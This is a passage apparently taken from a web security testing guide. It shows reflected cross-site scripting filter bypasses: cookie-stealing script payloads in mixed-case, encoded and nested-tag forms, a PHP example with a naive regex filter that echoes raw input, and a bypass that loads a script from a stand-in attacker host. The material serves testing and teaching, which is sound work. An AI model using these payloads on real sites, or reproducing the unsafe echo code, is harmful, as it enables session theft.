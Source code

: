 
Following some examples:
```
"><script >alert(document.cookie)</script >
```

```
"><ScRiPt>alert(document.cookie)</ScRiPt>
```

```
"%3cscript%3ealert(document.cookie)%3c/script%3e
```


##### Example 5: Bypassing non-recursive filtering
<br>
Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:
```
<scr<script>ipt>alert(document.cookie)</script>
```


##### Example 6: Including external script
<br>
Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:
```
<?
   $re = "/<script[^>]+src/i";

   if (preg_match($re, $_GET['var']))
   {
      echo "Filtered";
      return;
   }
   echo "Welcome ".$_GET['var']." !";
?>
```


In this scenario there is a regular expression checking if <b>`<script [anything but the character: '>' ] src`</b> is inserted. This is useful for filtering expressions like
```
<script src="http://attacker/xss.js"></script>
```

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the ">" character in an attribute between script and src, like this:
```
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```


This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, http://example/.
